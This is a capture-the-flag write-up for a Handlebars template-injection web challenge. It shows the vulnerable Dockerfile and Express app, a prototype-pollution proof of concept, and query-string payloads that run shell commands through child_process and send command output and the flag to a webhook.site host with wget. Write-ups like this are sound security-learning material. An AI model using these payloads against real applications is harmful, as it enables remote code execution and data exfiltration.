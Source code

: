 # 🏷️ Request Handling

**Category:** Web  
**Description:**  
> They patched Handlebars SSTI, there's nothing to worry about.

-----
In this challenge we are just given a Dockerfile

```Dockerfile
FROM alpine:latest AS flag-builder

WORKDIR /build
RUN apk add gcc musl-dev
RUN cat <<EOF > getflag.c
#include <stdio.h>
int main() {
    printf("DUCTF{test_flag}\n");
}
EOF
RUN gcc -static getflag.c -o getflag

FROM node:22-alpine

WORKDIR /app
RUN npm init -y && npm install express@4 handlebars

RUN cat <<EOF > app.js
const express = require("express");
const Handlebars = require("handlebars");
const app = express();

app.get('/', (req, res) => {
    res.send(Handlebars.compile(req.query.x)({}));
});

app.listen(8000, () => console.log('App listening'));
EOF

COPY --from=flag-builder /build/getflag /getflag
RUN chmod 111 /getflag

EXPOSE 8000

USER node
CMD node app.js
```
<br />

<img src="https://github.com/Yazan03/CTF-writeups2025/blob/main/DU%20CTF/Request%20Handling/images/skeleton.gif?raw=true" alt="Skeleton GIF" width="300" height="300">

<br />

The only thing we have to focus on was `res.send(Handlebars.compile(req.query.x)({}));`

googling about handlebars the only thing that came out was prototype pollution with some AST stuff.

Example : 

```js
pay= {
    "__proto__.type": "Program",
    "__proto__.body": [{
        "type": "MustacheStatement",
        "path": 0,
        "params": [{
            "type": "NumberLiteral",
            "value": "process.mainModule.require('child_process').execSync(`bash -c 'pwd'`)"
        }],
        "loc": {
            "start": 0,
            "end": 0
        }
    }]
})
```
<br />
found a POC: 

```js
const Handlebars = require('handlebars');

Object.prototype.type = 'Program';
Object.prototype.body = [{
    "type": "MustacheStatement",
    "path": 0,
    "params": [{
        "type": "NumberLiteral",
        "value": "console.log(process.mainModule.require('child_process').execSync('id').toString())"
    }],
    "loc": {
        "start": 0,
        "end": 0
    }
}];

const source = `Hello {{ msg }}`;
const template = Handlebars.compile(source);

console.log(template({"msg":"Hello!!!"}))
```
<br />

After trying out some ways to find a working payload with my teamate found this one : 

```
?x[type]=Program&x[body][0][type]=MustacheStatement&x[body][0][path]=0&x[body][0][params][0][type]=NumberLiteral&x[body][0][params][0][value]=console.log(process.mainModule.require('child_process').execSync('wget https://webhook.site/37831a21-e1d2-41dd-877c-1ee211a79adc?c=$(whoami)').toString())&x[body][0][loc][start]=0&x[body][0][loc][end]=0
```

And i got a call back
<br />
<img src='https://github.com/Yazan03/CTF-writeups2025/blob/main/DU%20CTF/Request%20Handling/images/1.PNG?raw=true' />
<br />
Getting the flag : 
```
?x[type]=Program&x[body][0][type]=MustacheStatement&x[body][0][path]=0&x[body][0][params][0][type]=NumberLiteral&x[body][0][params][0][value]=console.log(process.mainModule.require('child_process').execSync('wget https://webhook.site/37831a21-e1d2-41dd-877c-1ee211a79adc?c=$(../getflag|base64)').toString())&x[body][0][loc][start]=0&x[body][0][loc][end]=0
```
<br />
<img src='https://github.com/Yazan03/CTF-writeups2025/blob/main/DU%20CTF/Request%20Handling/images/2.PNG?raw=true'>
<br />
<img src='https://github.com/Yazan03/CTF-writeups2025/blob/main/DU%20CTF/Request%20Handling/images/3.PNG?raw=true'>
<br />
FLAG : 

```
DUCTF{35116296c07966e5f645dac55a0fe81c}
```

